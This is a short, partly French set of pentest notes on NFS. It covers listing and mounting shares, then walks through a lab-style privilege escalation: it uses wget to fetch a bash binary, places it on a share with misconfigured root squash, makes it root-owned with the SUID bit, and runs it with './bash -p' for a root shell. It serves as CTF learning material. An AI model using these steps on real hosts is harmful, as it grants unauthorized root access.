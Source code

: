 # Network File System

Allows to share file and directories over the internet  
Available with Windows or Unix OS  
It uses Mounting and file handle 


### List shares
```bash
showmount -e [Target-IP] 
```

### Mounting NFS shares

***Example : ***
Your client’s system needs a directory where all the content shared by the host server in the export folder can be accessed. You can create this folder anywhere on your system. Once you've created this mount point, you can use the "mount" command to connect the NFS share to the mount point on your machine like so:

```bash
sudo mount -t nfs [Target-IP]:share /tmp/mount/ -nolock
```


|Tag	| Function |
|:------|----------|
|sudo	|Run as root|
|mount	|Execute the mount command|
|-t nfs	|Type of device to mount, then specifying that it's NFS|
|IP:share	|The IP Address of the NFS server, and the name of the share we wish to mount|
|-nolock	|Specifies not to use NLM locking|








fichier bash pour le root shell :
```bash
wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash.
```

### Mapped Out Pathway:

If this is still hard to follow, here's a step by step of the actions we're taking, and how they all tie together to allow us to gain a root shell:


- NFS Access

    - Gain Low Privilege Shell

        - Upload Bash Executable to the NFS share

            - Set SUID Permissions Through NFS Due To Misconfigured Root Squash

                - Login through SSH

                    - Execute SUID Bit Bash Executable

                        - ROOT ACCESS

Lets do this! Get root access

1. : On télécharge le fichier bash et on le déplace à l'endroit du partage 
2. : on set les permissions de root : sudo chown root bash
3. : On set les permissions de SUID : sudo chmod +s bash		et ->  sudo chmod +x bash
4. : on log avec le ssh qu'on à trouvé avant et on execute le fichier avec ./bash -p
le -p permet de ne pas perdre les permissions de temps en temps

### Let's try

1. First, change directory to the mount point on your machine, where the NFS share should still be mounted, and then into the user's home directory.


2. Download the bash executable to your Downloads directory. Then use "cp ~/Downloads/bash ." to copy the bash executable to the NFS share. The copied bash shell must be owned by a root user, you can set this using "sudo chown root bash"


3. Now, we're going to add the SUID bit permission to the bash executable we just copied to the share using "sudo chmod +[permission] bash". What letter do we use to set the SUID bit set using chmod?


4. Let's do a sanity check, let's check the permissions of the "bash" executable using "ls -la bash". What does the permission set look like? Make sure that it ends with -sr-x.

5. Now, SSH into the machine as the user. List the directory to make sure the bash executable is there. Now, the moment of truth. Lets run it with "./bash -p". The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.


5. Great! If all's gone well you should have a shell as root!





